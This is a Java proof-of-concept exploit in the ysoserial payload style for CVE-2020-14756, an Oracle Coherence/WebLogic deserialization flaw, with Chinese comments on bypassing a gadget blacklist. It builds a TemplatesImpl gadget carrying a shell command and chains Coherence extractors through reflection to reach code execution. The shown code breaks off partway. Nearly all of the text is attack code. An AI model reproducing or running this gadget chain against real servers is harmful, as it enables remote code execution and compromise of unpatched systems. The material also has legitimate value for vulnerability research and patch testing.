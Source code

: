 ```
package ysoserial.payloads;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.tangosol.coherence.reporter.extractor.ConstantExtractor;
import com.tangosol.coherence.servlet.AttributeHolder;
import com.tangosol.util.ValueExtractor;
import com.tangosol.util.aggregator.TopNAggregator;
import com.tangosol.util.extractor.ChainedExtractor;
import com.tangosol.util.extractor.ReflectionExtractor;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.HashSet;
import ysoserial.payloads.util.Reflections;

import static ysoserial.payloads.util.Gadgets.createTemplatesImpl;

public class CVE_2020_14756_1213 `{`

    //还是不能bypass TemplatesImpl这个黑名单
    public static void main(String[] args) throws Exception`{`

        String cmd = "touch /tmp/hpdoger1213";

        final Object templates = createTemplatesImpl(cmd, TemplatesImpl.class, AbstractTranslet.class, TransformerFactoryImpl.class);

        ValueExtractor[] fakeaExtractors = new ValueExtractor[]`{`
                new ConstantExtractor(null)
        `}`;

        //构造一个假的aExtractors数组，以便于add操作添加整数
        ChainedExtractor extractorChain = new ChainedExtractor(fakeaExtractors);

        TopNAggregator.PartialResult partialResult = new TopNAggregator.PartialResult(extractorChain);


        AttributeHolder attributeHolder = new AttributeHolder();
        Method setInternalValue = attributeHolder.getClass().getDeclaredMethod("setInternalValue",Object.class);
        setInternalValue.setAccessible(true);
        setInternalValue.invoke(attributeHolder,partialResult);



        ValueExtractor[] realaExtractors = new ValueExtractor[]`{`
                new ReflectionExtractor("newTransformer")
        `}`;

        partialResult.add(templates);


```